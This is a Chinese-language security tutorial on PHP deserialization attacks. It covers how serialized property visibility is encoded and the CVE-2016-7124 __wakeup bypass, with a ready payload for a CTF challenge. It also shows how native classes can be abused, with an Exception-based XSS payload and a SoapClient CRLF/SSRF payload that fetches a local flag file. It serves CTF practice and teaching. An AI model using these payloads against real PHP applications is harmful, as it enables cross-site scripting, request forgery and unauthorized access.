 
---

➢ PHP-属性类型-共有&私有&保护

➢ PHP-绕过漏洞-CVE&字符串逃逸

➢ PHP-原生类Tips-获取&利用&配合


#PHP-属性类型-共有&私有&保护

1、对象变量属性：

public(公共的):在本类内部、外部类、子类都可以访问

protect(受保护的):只有本类或子类或父类中可以访问

private(私人的):只有本类内部可以使用

2、序列化数据显示：

public属性序列化的时候格式是正常成员名

private属性序列化的时候格式是%00类名%00成员名

protect属性序列化的时候格式是%00*%00成员名

```php
<?php

header("Content-type: text/html; charset=utf-8");

//public private protected说明

class test{

public $name="xiaodi";

private $age="31";

protected $sex="man";

}

$a=new test();

$a=serialize($a);

print_r($a);

?>
```


#PHP-绕过漏洞-CVE&字符串逃逸

1、CVE-2016-7124（__wakeup绕过）

漏洞编号：CVE-2016-7124

影响版本：PHP 5<5.6.25; PHP 7<7.0.10

漏洞危害：如存在__wakeup方法，调用unserilize()方法前则先调用__wakeup方法，但序列化字符串中表示对象属性个数的值大于真实属性个数时会跳过__wakeup执行

Demo：见CVE.PHP与版本切换演示

案例：

[极客大挑战 2019]PHP

1、下载源码分析，触发flag条件

2、分析会触发调用__wakeup 强制username值

3、利用语言漏洞绕过 CVE-2016-7124

4、构造payload后 修改满足漏洞条件触发

Payload：

```
select=O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bs%3A3%3A%22100%22%3B%7D
```

#PHP-原生类Tips-获取&利用&配合

参考案例：#https://www.anquanke.com/post/id/264823

-PHP有那些原生类-见脚本使用

-常见使用的原生类-见参考案例

-原生类该怎么使用-见官方说明

0、生成原生类脚本

```php
<?php

$classes = get_declared_classes();

foreach ($classes as $class) {

$methods = get_class_methods($class);

foreach ($methods as $method) {

if (in_array($method, array(

'__destruct',

'__toString',

'__wakeup',

'__call',

'__callStatic',

'__get',

'__set',

'__isset',

'__unset',

'__invoke',

'__set_state'

))) {

print $class . '::' . $method . "\n";

}

}

}
```

1、本地Demo-xss

```
<?php

highlight_file(__file__);

$a = unserialize($_GET['k']);

echo $a;

?>
```

-输出对象可调用__toString

-无代码通过原生类Exception

-Exception使用查询编写利用

-通过访问触发输出产生XSS漏洞

```php
<?php

$a=new Exception("<script>alert('xiaodi')</script>");

echo urlencode(serialize($a));

?>
```

2、CTFSHOW-259

-不存在的方法触发__call

-无代码通过原生类SoapClient

-SoapClient使用查询编写利用

-通过访问本地Flag.php获取Flag

```php
<?php

$ua="aaa\r\nX-Forwarded-For:127.0.0.1,127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";

$client=new SoapClient(null,array('uri'=>'http://127.0.0.1/','location'=>'http://127.0.0.1/flag.php','user_agent'=>$ua));

echo urlencode(serialize($client));

?>
```